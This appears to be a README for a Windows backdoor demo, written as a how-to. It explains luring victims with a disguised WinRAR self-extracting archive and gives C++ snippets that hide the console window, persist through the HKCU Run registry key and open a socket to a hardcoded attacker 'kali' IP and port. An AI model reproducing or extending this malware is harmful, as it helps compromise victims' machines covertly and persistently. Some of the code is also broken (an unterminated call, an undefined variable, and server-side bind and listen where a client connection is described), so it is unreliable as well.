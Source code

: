 ## Phishing

For this type of backdoor program, the most critical step may be to lure the victim into willingly taking the bait. In the demo, I used the classic trick of disguising the backdoor as a different type of file. Using the well-known self-extracting archive feature of WINRAR makes this step easy to accomplish.

In reality, it would be better to forge or inject the backdoor into a trusted application from various angles, but I am not currently able to do so.

## Connection

To deploy the backdoor, an idle port is selected and the IP and port obtained in advance are embedded in the client-side code. This allows the creation of sockets at both the client and server ends to establish a two-way data transfer. However, passing through the victim's firewall is unavoidable. In this demo, it can only rely on the victim's firewall settings being relatively lax to allow connections on the desired port.

## Backdoor Execution

We create a hidden console, although it is still visible in the task manager.

```cpp
AllocConsole(); 
stealth = FindWindowA("ConsoleWindowClass", NULL); 
ShowWindow(stealth, 0);
```

## Pervasiveness

Registry HEKY should be logged in the corresponding directory to achieve automatic startup when the computer is turned on. In Windows 7, this directory is located at

```cpp
Software\Microsoft\Windows\CurrentVersion\Run
```

This is the way for accessing in Windows

```cpp
TCHAR s2Path[MAX_PATH]; 
DWORD pathLen = 0;
pathLen = GetModuleFileName(NULL, s2Path, MAX_PATH);
HKEY NewVal; 
RegOpenKey(HKEY_CURRENT_USER, TEXT("Software\\Microsoft\\Windows\\CurrentVersion\\Run")
RegSetValueEx(NewVal, TEXT("Backdoor"), 0, REG_SZ, (LPBYTE)s2Path, pathLenInBytes)
```

## Eavesdropping

Establish Socket Communication

```cpp
sock = socket(AF_INET, SOCK_STREAM, 0); 
if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, (const char*)&optval, sizeof(optval)) < 0) { 
	printf("Error Setting TCP Socket options!\n");
	return 1;
}
server_address.sin_family = AF_INET;
server_address.sin_addr.s_addr = inet_addr("192.168.56.99"); //kali ip
server_address.sin_port = htons(50008); //port
bind(sock, (struct sockaddr*) &server_address, sizeof(server_address));
listen(sock, 5); 

while (1) { 
	bzero(&buffer, sizeof(buffer));
```
